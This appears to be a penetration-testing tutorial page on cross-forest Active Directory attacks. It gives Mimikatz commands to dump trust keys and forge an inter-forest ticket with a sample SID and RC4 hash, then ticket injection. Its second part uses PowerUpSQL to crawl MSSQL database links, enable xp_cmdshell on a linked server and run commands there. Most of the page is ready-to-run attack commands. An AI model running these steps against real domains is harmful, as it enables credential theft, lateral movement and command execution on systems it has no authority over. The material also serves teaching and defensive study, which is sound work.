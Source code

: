 ```yaml
---
title: Cross Forest Attacks
category: Active Directory
order: 5
---
```


In this section we are going to abuse trusts between forests.

# Across Forest using Trust Tickets

A trust ticket is a key which a DC of the other forest uses to decrypt the TGT presented by the attacker. That is the only check. We are going to execute a similar attack such as golden ticket but using the *trust ticket* instead of the _krbtgt_ hash.

To list the Trust tickets we can use mimikatz:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

So an inter-forest TGT can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```

Now we can request a TGS for `cifs` service on the dc of the trusted forest.

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```
And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```

# Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.ps1
```

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery('sql2.corp.local', 'select * from master..sysservers')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```

